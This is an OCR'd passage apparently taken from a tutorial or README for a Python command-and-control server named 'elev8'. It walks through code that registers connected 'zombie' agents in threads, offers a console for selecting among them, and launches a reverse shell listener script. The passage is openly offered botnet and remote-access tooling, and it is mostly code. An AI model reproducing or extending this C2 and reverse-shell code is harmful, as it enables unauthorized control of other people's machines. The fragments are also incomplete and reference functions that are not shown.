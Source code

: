 ```python
        #it can't get any easier than that right?!
        ##########################################

        UserInfo=clientinfo[0]
        #print(clientinfo)
        clientlist.append([counter, conn, UserInfo])
        clientdata.append(clientinfo)

        handler_thread = threading.Thread(target=probe)
        handler_thread.daemon = True
        handler_thread.start()
```

***Select your Zombie! 🧟***
-

> In this section, we will setup our basic command prompt to help us navigate our zombie agents

```python
def server_selection():
    global clientlist
    commands="True"

    while not "exit" in commands:

        command=input(Fore.CYAN + "<< elev8 >> $ " + Fore.WHITE)
        if command=="":
            pass
        if command=="zombies": #interact with a zombie/agent!
            zombies()
        if command == "cls" or command == "clear": #clear the console if it gets cluttered, works on windows / linux
            if os.name == 'nt':
                os.system("cls")
            else:
                os.system("clear")
        if command == "?" or command == "help": #just tells you stuff you prob already know
            print(Fore.YELLOW + "commands:\n$ zombies\n$ clear/cls (clears screen)\n$ control + C kills server\n" + Fore.WHITE)
```

***Code for the reverse shell listener function***
-

> Code we need to have in place when we want to get a reverse shell using our zombie agent 🧟‍♂️

```python
def startrevshellsvr():
    if os.name == 'nt': #we usin' windows, well...then do this
        subprocess.call(["py", "pyrevshell_server.py"])
        exit_event.set()
    else: #else, we're flyin high like a penguin and usin' linux!  so, act accordingly
        subprocess.call(["python3", "pyrevshell_server.py"])
        exit_event.set()
```
